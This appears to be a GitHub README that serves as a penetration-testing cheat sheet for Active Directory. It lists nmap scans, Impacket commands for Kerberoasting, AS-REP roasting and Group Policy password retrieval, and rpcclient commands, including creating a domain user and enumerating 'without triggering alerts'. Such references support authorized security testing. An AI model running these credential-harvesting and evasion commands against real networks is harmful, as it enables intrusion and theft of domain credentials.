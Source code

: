 # Ba51c_Activ3_Direct0ry_3numeration
In most engagements regarding Active Directory (Attacktive Directory), credentials are king. This repo contains basic enumeration commands that will help gain more insight into the target network and its identities. 


# IP Discovery Commands
Once connected to the private/internal range of the target, these commands will assist in IP discovery as well as Services that run on the IP. 
- nmap -sn <IP/24>
- nmap -Pn <IP/24>


# Impacket to Rule them All
"What is Impacket used for?
Impacket is an open-source collection of modules written in Python for programmatically constructing and manipulating network protocols."
If credentials have been gained, they will assist with the following commands that can be run in the domain

*Enter details between the placeholders --> ()

## Getting AD Users
python3 GetADUsers.py -all '(domain)/(user):(password)' -dc-ip (IP)

## Kerberoasting 
python3 GetUserSPNs.py test.local/john:password123 -dc-ip 10.10.10.1 -request

## ASREP Roasting
python3 GetNPUsers.py test.local/ -dc-ip 10.10.10.1 -usersfile usernames.txt -format hashcat -outputfile hashes.txt

## Get GPPPassword
python3 Get-GPPPassword.py 'TEST.local/john:password123@DC01.TEST.local' -dc-ip 10.10.10.1


# RPCCLient - Sneaky Enumeration Tactics 
The following tool aids in enumerating objects in a domain without triggering alerts and creating a lot of "noise". 

## RPCClient Authentication
rpcclient -U 'Testuser' 10.10.1.1 - (Password Prompt will appear after)

## RPCClient Commands
- List Users = enumdomusers
- List Groups = enumdomgroups
- Domain Info = querydominfo
- Enumerate all available shares = netshareenumall
- Create Domain User = createdomuser



